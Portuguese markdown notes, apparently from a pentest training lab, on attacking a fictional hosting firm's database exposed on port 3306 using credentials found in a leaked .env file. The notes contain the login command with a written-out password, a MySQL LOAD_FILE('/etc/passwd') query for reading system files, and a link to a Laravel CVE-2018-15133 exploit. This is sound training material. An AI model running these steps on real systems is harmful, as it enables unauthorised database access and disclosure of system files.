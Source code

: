 # Analise de Vulnerabilidades
os testes da semana seram feitos no lab fornecido pela CrowSec Segurança Ofensiva.

- Cenário:
    > A empresa chamada CS Hosting nos contratou para que nós realizassemos um pentest (achar, explorar e identificar as vulnerabilidades) dentro de sua estrutura.

- Dados:
    > Foi instalado o mariadb-client para uma tentativa de conexão remota com a porta 3306 que está aberta (identificada na etapa de recon).
    > As informações do banco estão no arquivo .env encontrado no fuzzing da etapa de recon.

- Para Analisar:
    > O fato de o banco de dados estar de cara para a internet que pode ser facilmente acessado remotamente usando as infos do arquivo .env encontrado.
    > 

- Repos:
    > CVE-2018-15133 (PoC) - https://github.com/aljavier/exploit_laravel_cve-2018-15133

---

## Comandos
```bash
# conectando na instancia do banco do dominio
$ mysql -h cshosting.crowsec.com.br -u admin_laravel -p # -h especifica o endereco da instancia do banco para ser conectado; -u especifica o usuario que vai ser utilizado; -p especifica a senha que vai ser utilizada (fPXUTSxNdl)

# pelo proprio mysql é possivel exutar comandos para ler aquivos da máquina onde o serviço está instalado, caso não tenha permissão para isso a query retorna NULL.
$ select LOAD_FILE('/etc/passwd'); # ira fazer o similar a um cat no arquivo só que por dentro do mysql
$ 

```

> Link do notion do Kadu: https://www.notion.so/An-lise-de-vulnerabilidades-e8c5f25d6ed6432ba45580233318c737